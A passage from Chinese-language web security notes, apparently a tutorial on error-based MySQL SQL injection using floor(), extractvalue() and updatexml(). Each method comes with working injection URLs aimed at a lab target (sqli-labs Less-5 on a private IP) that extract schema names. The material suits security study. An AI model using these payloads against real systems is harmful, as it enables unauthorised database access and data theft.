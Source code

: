 floor()报错就是通过使`floor`，`count`，`group by`三个函数相遇发生错误从而达到报错注入的目的。`count（*）`和`group by`共同工作，首先系统会先建立一张虚拟表；`group by`会读取`rand`产生的随机数，将其插入的到虚拟表中并记录下次数当再次循环出现一个前面已经出现的随机数系统会再次插入可虚拟表的已经有了这就会出现问题，系统会抛弃多余的，从而出现报错的异常，从而达到报错注入的目的。

查看数据库
```sql
http://192.168.1.8/Less-5/?id=1'union select null,count(*),concat((select schema_name from information_schema.schemata limit 0,1),floor(rand()*2))as a from information_schema.tables group by a --+
```
![image.png](_img/02-Web安全/01-基础知识/1671092830887-4b120cf4-9c2f-4a6f-b1f7-a240f2379993.png)

**2、extractvalue()函数**<br />基本格式：
```sql
ExtractValue (xm1_frag，xpath_expr)
```


`**extractvalue()**`函数接收两个字符串参数，分别是`xml标记片段`和`xpath表达式xpath_expr`，第一个参数就是为了上传一个xml文档，第二个参数就是用xpath路径去查找路径，而**extractvalue报错注入 就是通过在函数中写入不符合语法格式的xpath达到报错的目的，并且通过拼接sql注入语句从而通过报错查询并显示我们想要查询的内容**。

查询格式：
```sql
select username from security.user where id=1 and (extractvalue('anything',concat('~',(select database())))) 
```
 	这里通过`concat`拼接sql语句并且由于我们第二个参数的位置写入的xpath是不符合语法格式的所以会产生报错，从而达到我们想要查询的内容

查看数据库
```sql
http://192.168.1.8/Less-5/?id=1' and (extractvalue('anything',concat('~',(select group_concat( schema_name) from information_schema.schemata))))  --+
```
![image.png](_img/02-Web安全/01-基础知识/1671092796144-9fe0cb95-6007-4e04-abfa-16dde2adeb73.png)

**3、updatexml()函数**<br />updatexml报错注入和extractvalue报错注入的原理差不多，都是利用插入不符合函数格式的语句并拼接查询语句从而通过函数报错达到查询内容的目的。

基本格式：
```sql
updateXIML (xml_target,xpath_expr,new_xml)

xml_taeget：是我们需要操作的xml片段；
xpath_expr：和上面的一样，是需要更新的路径；
new_xml：是更新后的的xml字段；
```

查询格式：
```sql
select username from security.user where id=1 and (updatexml('anything',concat('~',(sql语句)),'anything'))
```

查看数据库：
```sql
http://192.168.1.8/Less-5/?id=1' and (updatexml('anything',concat('~',(select group_concat( schema_name) from information_schema.schemata)),'anything'))  --+
```
![image.png](_img/02-Web安全/01-基础知识/1671092792794-78e8d750-4134-4ffe-a2de-feaa83757ad5.png)
